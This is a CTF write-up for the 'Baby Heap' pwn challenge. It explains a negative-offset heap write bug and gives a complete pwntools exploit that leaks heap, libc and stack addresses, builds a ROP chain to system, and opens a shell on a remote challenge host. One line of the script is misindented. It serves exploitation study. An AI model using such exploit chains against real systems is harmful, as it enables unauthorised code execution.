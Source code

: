 ```yaml
---
title: "Baby Heap - Alfarahidi CTF"
tags:
  - Pwn
  - CTF 
  - heap
---
```


# Description:

It's not baby heap lol 


# Overview:

During the initialization phase, [0,15] memory pages were randomly lifted, and a tcache list with a starting size of 0x291 was also created, which was well received. 

Then randomly allocate 16 chunks of sum `0x10`and `0x28`size on the heap, respectively as `header`and `data`, the data structure is as follows. 

```c
- header:
    
    0x0: size ( signed long long)
    
    0x8: ptr (char*)
    
- data:
    
    0x0: data (char[0x28])
```

There will be no new malloc behavior from now on.

In the allocation stage, randomly pick one from each `header`and `data`put it into the list on bss. The entire process applies to more than 16 direct `exit(0)`.

Deletion also clears `header`the pointer in, and there is no UAF.

`show`When using the function `write(1,header->ptr,header->size)`, you can ignore 0 and truncate the leaked information.

**Vulnerability point analysis :** 

`edit`In the function, `offset`there is no check for negative numbers, which results in arbitrary writing to lower addresses on the heap, specifically `header->ptr[offset]`.

Because the sum of the heap `header`is `data`initialized `malloc`, the addresses are consecutive and only `add`randomly assigned during the process. Therefore, there is a higher probability `header`that it will be `data`adjacent.

- The total size of the large heap blocks allocated during initialization is always a multiple of 0x1000, which will only affect heap_base in units of memory pages and will have little impact on our next use.

Then we can start spraying. Assume that there is at least one `header`and `data`adjacent, find any one `data`, modify its adjacent `header`size field forward, and then stack `show`all the blocks one by one. If the assumption is true, we will receive data with a length greater than 0x28 .

In this way, we can get the address on the heap and then `header`the `data`address of the page where it is located.

Remember that the randomly selected heap block id is `random_idx`, and find `show`the heap block id that can produce data `target_idx`.

Then we clear the lower 12 bits `random_idx`of `header->data`the pointer to zero, and then get the memory distribution of the entire page.

Next we consider how to get libc.

Since the deletion process will delete the pointer, we cannot directly use `random_idx`the sum used in the previous step *target_idx*. We need to control another pointer to point to the heap block of size 0xd60 allocated during the initialization phase.

We can randomly pick one with *random_idx* different *target_idx* IDs *header*, find the one that corresponds to it *data*, calculate the distance between this *header*  and *data* the other, and then we will get another controllable one `header`, and further use it to complete the free of large blocks.

It is very simple to construct arbitrary reading and writing. You can change and write at will with the `random_idx`and `target_idx`.

With libc and arbitrary reading and writing, you can consider how to getshell.

`main`It's OK `return 0`, consider leaking env and stacking it.

Although the local hit probability is not very high (the physical sense is less than 50%), the remote hit probability is still quite high. I hit it three times.

```python
from pwn import *
context(arch='amd64', os='linux', log_level='info')
#s=process('./src/pwn')
#s=remote("localhost",10002)
s = remote('15.237.60.47',10002)
elf=ELF('./src/pwn')
libc=ELF("./src/libc.so.6")

def menu(choice):
    s.sendlineafter(b"choice: ",str(choice).encode())
def add(idx,content=b"/bin/sh\x00"):
    menu(1)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"data: ",content)

def edit(idx,off,content):
    menu(2)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"offset: ",str(off).encode())
    s.sendlineafter(b"data: ",content)

def show(idx):
    menu(3)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.recvuntil(b"Data: ")
    return s.recvline()[:-1]

def delete(idx):
    menu(4)
    s.sendlineafter(b"idx: ",str(idx).encode())

def test(dat):
    context.log_level="info"
    tests=process("./pwn")
    context.log_level="debug"
    tests.send(dat)
    context.log_level="info"
    tests.close()
    context.log_level="debug"

if __name__=="__main__":
   # pause()
    # spray heap with idx, binsh seems useless
    for i in range(0x10):
        add(i,p64(0xd0+i)+b"/bin/sh\x00")
    # randomly choose an header, modify its neighbour header->size
    # to a bigger one, prepare to leak when show
    edit(3,-0x20,b"\x90\x21")
    # try hit, if hit, then data len should be the length we set
    # in our previous step
    flag=0
    target_idx=0
    for i in range(0x10):
        dat=show(i)
        if len(dat)!=0x28:
            info(hex(len(dat)))
            flag=1
            target_idx=i
            break
    if not flag:
        error("failed to leak")

    # clear low 12 bits to zero, show from "heap base"
    # then we can know what's on mem
    pos=dat.find(p64(0x28))
    heap_base=u64(dat[pos+8:pos+16])&(~0xfff)
    info(hex(heap_base))
    edit(3,-0x18,p64(heap_base)[:6])
    dat=show(target_idx)

    # choose the first header, and try to find its data and modify
    # its ptr to 0xd71 chunks malloced in init phase.
    # There's some simple assertions.
    # Can be removed if you scan other ptrs on heap when the first failed.
    pos=dat.find(b"\x56")
    if pos==-1:
        pos=dat.find(b"\x55")
    if pos==-1:
        error("failed to find heap ptr")
    pos-=5
    heap_ptr=u64(dat[pos:pos+8])&(0xfff)
    evil_idx=u64(dat[heap_ptr:heap_ptr+8])-0xd0
    if evil_idx<0 or evil_idx>0x10:
        error("failed to find evil idx")
    info(hex(evil_idx))
    if pos-heap_ptr>0:
        error("fail to calc offset")
    

    edit(evil_idx,pos-heap_ptr,p64(heap_base-0xd70+0x10)[:6])
    delete(evil_idx)
    edit(3,-0x18,p64(heap_base-0xd70+0x10)[:6])
    dat=show(target_idx)
    libc.address=u64(dat[:8])-(0x7f5fc9912ce0-0x7f5fc96f9000)
    success(hex(libc.address))

    # Now we get libc base, leak environ then attack stack
    # should be a good idea.

	    edit(3,-0x18,p64(libc.sym.environ)[:6])
    stack=u64(show(target_idx)[:8])
    success(hex(stack))

    target=stack+(0x7ffd0cee3c38-0x7ffd0cee3d58)+8
    edit(3,-0x18,p64(target)[:6])
    edit(target_idx,-8,p64(libc.address+0x000000000002a3e5+1)[:6])
    edit(target_idx,0,p64(libc.address+0x000000000002a3e5)[:6])
    edit(target_idx,8,p64(libc.address+0x00000000001d8698)[:6])
    edit(target_idx,0x10,p64(libc.sym.system)[:6])
    s.interactive()
```
